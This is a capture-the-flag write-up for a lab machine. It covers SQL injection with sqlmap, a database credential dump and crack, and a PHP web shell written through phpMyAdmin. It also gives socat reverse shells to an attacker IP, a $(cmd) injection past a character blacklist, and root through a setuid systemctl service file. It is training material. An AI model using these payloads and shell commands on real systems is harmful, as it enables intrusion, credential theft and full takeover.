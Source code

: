 ![](./logo.png)

# USER

Enumeration of the endpoint shows a `http` endpoint.

Further investigation reveals a page `/room.php` with a `get` request called `cod`.

Running `sqlmap` on this endpoint reveals it is vulnerable to `injection` attackss


Runnin the command below leaks the tables present:
```
$ sqlmap -u http://10.10.10.143/room.php?cod=2  --dbs

available databases [4]:                                                                                                                                                                       
[*] hotel
[*] information_schema
[*] mysql
[*] performance_schema
```

Running the command below gives us information on the users present in the `mysql` database:
```
sqlmap -u http://10.10.10.143/room.php?cod=2  -D mysql -T users --dump
```

Gives us the hash:
```
*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```

Once cracking gives us:
```
DBadmin:imissyou
```

This can be used to log into the `phpMyAdmin` account!


With some investigation and experimentation we can execute the `sql` command below to create us a backdoor payload:

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/backdoor.php"
```

We can then inject our reverse shell with the payload below:
```
http://10.10.10.143/backdoor.php?cmd=socat%20exec%3A%27bash%20-li%27%2Cpty%2Cstderr%2Csetsid%2Csigint%2Csane%20tcp%3A10.10.14.55%3A6868
```

This spawns us on the box as `www-data`.

We cannot access the `user.txt` and thus need to priv esc.

When running the enum scripts it can be seen that we can run a command as `pepper`.

```
User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

The vulnerable code is below:

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

We are able to run commands but with restrictions on our input:

```python
forbidden = ['&', ';', '-', '`', '||', '|']
```

With some trial and error it can be seen that we can insert commands via the `$(cmd)` syntax. Bash will execute these first before evaulating the rest. This means we can inject:

```bash
$(socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:<PORT>)
```

To create us a strong shell with the user `pepper`. This allows us to `cat` the `user.txt`!

# ROOT

With a fresh set of enumeration `lse` shows:

```
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/bin/systemctl
```

This will allow us to create services in the context of `root`. 

Refering to the `gtfobins` service gives us the frame for a service.

The payload was used below:
```
[Service]
ExecStart=/bin/sh -c "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.55:7000"

[Install]
WantedBy=multi-user.target
```

For an unknown reason the `/tmp` directory was not suitable for the service file. Through trial and error it was found that the `/home` directory of `pepper` was a working location.

```
systemctl link ~/hack.service
systemctl enable --now hack
```

Resulted in a `socat` shell spawned as `root`!

